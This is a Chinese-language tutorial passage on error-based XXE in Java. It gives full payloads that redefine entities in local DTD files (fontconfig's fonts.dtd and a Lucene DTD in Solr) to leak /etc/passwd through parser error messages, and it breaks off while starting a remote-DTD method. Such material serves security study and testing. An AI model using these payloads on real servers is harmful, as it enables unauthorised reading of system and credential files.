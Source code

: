 ## Error Based XXE

在高版本Java且需要盲注的情况下，唯一的解决办法就是Error Based XXE，前提是服务器开启了报错。

总的来说有三种方法：

1.利用操作系统上已有的dtd文件。比如Docker官方openjdk镜像，其安装了fontconfig-config这个包，这个包就包含一个dtd文件/usr/share/xml/fontconfig/fonts.dtd：

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

本地dtd文件在这里的作用是：如果无回显且服务器不允许请求远程服务器上的dtd文件，那么就可以使用本地文件，去redefine其中的参数实体，再结合报错实现回显。

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240614205350.png)

2.利用应用内部的dtd文件。比如比如Solr依赖的lucene-queryparser.jar中包含的LuceneCoreQuery.dtd：

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/solr/server/solr-webapp/webapp/WEB-INF/lib/lucene-queryparser-7.0.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

3.利用远程dtd文件（出网）

```xml-dtd
#服务器上放一个dtd

<!ENTITY % test "example">
<!ELEMENT pattern (%test;)>

```
